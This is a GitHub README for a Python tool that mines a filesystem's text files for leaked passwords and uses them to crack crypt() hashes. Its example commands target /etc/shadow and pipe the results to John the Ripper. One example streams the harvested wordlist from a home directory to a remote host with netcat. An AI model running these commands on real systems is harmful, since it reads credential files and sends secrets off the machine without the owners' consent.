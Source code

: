 # Dave Navarro's Goatee

This program attempts to crack hashes based on the contents of a
filesystem. It is currently pretty bad quality as I am just learning
Python.

In the future I plan on supporting more hash types besides ones supported
by crypt(), wordlist generation, and better efforts to eliminate duplicate
effort. This code actually works, but is slow. It takes roughly 3 minutes
to attempt to crack a single SHA-512 hash against a 5kb text file. This
should be used AFTER attempting to crack hashes using John the Ripper or
hashcat.

Some good paths to use this on are /home, /root, /var/www, /var/log, 
/var/spool/{cron,mail,...), and /etc. In this program's current state, it
would likely take several weeks/months to work against /.

If someone makes the mistake of mentioning their passwords in a chat program
that gets logged to the hard drive, mis-types their password into their
shell, types their password into the username field of a program that gets
logged to /var/log, or adds their password somewhere to a configuration
file in plain text, this program will eventually find it.

## How does this work?

It will recursively scan a directory for files that are not binaries
(contain no NULL characters), and read line by line, applying various
mutations to each line to generate a potential list of passwords. This uses
the entire line itself, a list of words reading character by character from
left to right, from right to left, every token combination of every
non-alphanumeric character, and each token broken down left to right, then
right to left.

To reduce CPU cost, you can specify minimum password lengths to try and
have the option to skip lines that do not score above a threshold met by
using Claude Shannon's entropy algorithm. I am currently exploring ways to
reduce duplicated combinations and to speed the process up.

## Example usages:

### Crack /etc/shadow using contents of /home/daniel
```
./dave_navarros_goatee.py --path /home/daniel --hashfile /etc/shadow --minlength 8
```
This is the typical usage. Currently very slow, but works "quick enough"
against smaller directories.

### Generate wordlist from contents of /var/log
```
./dave_navarros_goatee.py --path /var/log --stdout >/tmp/wordlist.tmp
sort /tmp/wordlist.tmp |uniq >/tmp/wordlist.txt && rm /tmp/wordlist.tmp
```
wordlist.txt can now be transferred to a beefier rig and used with John the
Ripper, hashcat, or whatever suits your fancy. This has the added benefit of
supporting more hash types than crypt().

### Pipe output to John the Ripper
```
./dave_navarros_goatee.py --path /home --stdout | john --pipe --rules hashfile
```
This currently works great against smaller virtual machines and embedded
devices. Its kind of a bummer because either JtR doesn't support --fork with
--pipe, or I have failed to figure out how to do it properly.

This does not store a word list to the hard drive. It is also useful for
attempting to crack hashes not handled by crypt().

### Pipe over the network using netcat
```
# on receiving machine
nc -nlvp 443 >wordlist.txt


# on sending machine
./dave_navarros_goatee.py --path /home/daniel --stdout |nc ip.of.receiving.host 443
```

This is also great for smaller systems with limited resources available or for
transferring the wordlist to a beefier machine. Use Ncat for SSL support.

